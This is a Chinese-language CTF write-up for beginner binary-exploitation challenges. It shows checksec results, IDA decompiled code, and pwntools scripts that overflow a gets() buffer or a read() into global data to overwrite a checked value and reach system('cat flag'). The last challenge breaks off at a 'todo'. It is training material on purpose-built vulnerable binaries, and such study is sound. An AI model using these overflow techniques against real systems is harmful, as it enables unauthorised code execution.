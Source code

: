## get_shell

直接运行就能拿到 shell

## when_did_you_born

查看保护机制

```
checksec --file=when_did_you_born
```

![](imgs/2_checksec.png)

有canary 没法进行栈溢出，NX 开启没法执行 shellcode，

直接运行，输入出生日期会进行输出，推测格式化字符串

```bash
root@kali:/workspace/gf# ./24ac28ef281b4b6caab44d6d52b17491
What's Your Birth?
20000102
What's Your Name?
cc
You Are Born In 20000102
You Are Naive.
You Speed One Second Here.
```

使用 IDA 反汇编查看，逻辑上看需要绕过输入变量为 1926 的判断

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 result; // rax
  char v4; // [rsp+0h] [rbp-20h]
  unsigned int v5; // [rsp+8h] [rbp-18h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  puts("What's Your Birth?");
  __isoc99_scanf("%d", &v5);
  while ( getchar() != 10 )
    ;
  if ( v5 == 1926 )
  {
    puts("You Cannot Born In 1926!");
    result = 0LL;
  }
  else
  {
    puts("What's Your Name?");
    gets(&v4);
    printf("You Are Born In %d\n", v5);
    if ( v5 == 1926 )
    {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
    else
    {
      puts("You Are Naive.");
      puts("You Speed One Second Here.");
    }
    result = 0LL;
  }
  return result;
}
```

首先分析一下获取用户输入时候的处理，`scanf()`在读取输入时会在缓冲区中留下一个字符`'\n'`，`getchar()`把这个回车符取走的话，`gets()`就不会等待从键盘键入字符，。是会直接取走这个“无用的”回车符，从而导致读取有误。10 为回车的 ASCII 码。

```c
  __isoc99_scanf("%d", &v5);
  while ( getchar() != 10 )
    ;
```

而

`gets()`函数从流中读取字符串，直到出现换行符或读到文件尾为止，最后加上NULL作为字符串结束。所读取的字符串暂存在给定的参数string中。

**由于gets()不检查字符串string的大小，必须遇到换行符或文件结尾才会结束输入**

所以输入较长的 v4 变量覆盖 v5 变量。

```bash
char v4; // [rsp+0h] [rbp-20h] # 1字节
unsigned int v5; // [rsp+8h] [rbp-18h] # 4字节，在64位机器下
```

需要输入多长的数据呢？两个变量相差 6 个字节。

![](imgs/静态栈空间.png)

所以构造输入

```
'a'*8 + 1926
```

构造 exp

```python
from pwn import *

payload = flat(["a"*8, p64(1926)])
print(payload)
sh = process("./when_did_you_born")
sh.recvuntil("What's Your Birth?")
sh.sendline("hello")
sh.recvuntil("What's Your Name?")
sh.sendline(payload)
sh.interactive()
```

**问题**

- 在每个栈帧内部变量应该是从低地址到高地址存储到栈上，此题在伪代码内显示的是

  `name` 变量处于 [rsp+0h] 低地址

  `birth` 变量处于 [rsp+8h] 高地址

  但为什么从 IDA 查看的栈空间中 name 地址大于 birth 的地址？

## hello_pwn

查看保护机制，没有canary呀，或许可以栈溢出

```bash
# checksec --file=hello_pwn --format=csv
Partial RELRO,No Canary found,NX enabled,No PIE,No RPATH,No RUNPATH,No Symbols,No,0,1,hello_pwn
```

ida 反汇编

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  alarm(0x3Cu);
  setbuf(stdout, 0LL);
  puts("~~ welcome to ctf ~~     ");
  puts("lets get helloworld for bof");
  read(0, &unk_601068, 0x10uLL);
  if ( dword_60106C == 1853186401 )
    sub_400686(0LL, &unk_601068);
  return 0LL;
}
```

从用户输入读取字符，但只会读取10 个字符，栈溢出啥啊溢出不了，但10个字符的输入对于此题的利用已经足够

> ssize_t read(int fd, void * buf, size_t count);
>
> read()会把参数fd 所指的文件传送count 个字节到buf 指针所指的内存中.

执行函数 `sub_400686` 中就是我们目标，内部有 `cat flag`

用户输入从 unk_601068 开始存储，因此我们要构造输入，使得从地址 60106C 开始读取一个双字节的数字值为1853186401

8 和 c 之前相差4字节

```bash
from pwn import *

payload = flat(["a"*4, p64(1853186401)])
print(payload)
sh = process("./hello_pwn")
sh.recvuntil("lets get helloworld for bof")
sh.sendline(payload)
sh.interactive()
```

## string

菜鸡遇到了Dragon，有一位巫师可以帮助他逃离危险，但似乎需要一些要求

保护措施

```bash
Full RELRO,Canary found,NX enabled,No PIE,No RPATH,No RUNPATH,No Symbols,No,0,2,stringgf
```

是个打怪的游戏，只要使得 a1[0] 和 a1[1] 相等，就能执行到我们想要执行的代码。

```bash
if ( *a1 == a1[1] )
{
puts("Wizard: I will help you! USE YOU SPELL");
v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
read(0, v1, 0x100uLL);
(v1)(0LL, v1);
}
```

回溯这两个变量，其实就是执行程序时开头给我们的几个变量。

```bash
we are wizard, we will give you hand, you can not defeat dragon by yourself ...
we will tell you two secret ...
secret[0] is 928010
secret[1] is 928014
```

需要想办法修改变量，不能覆盖栈，就需要

- todo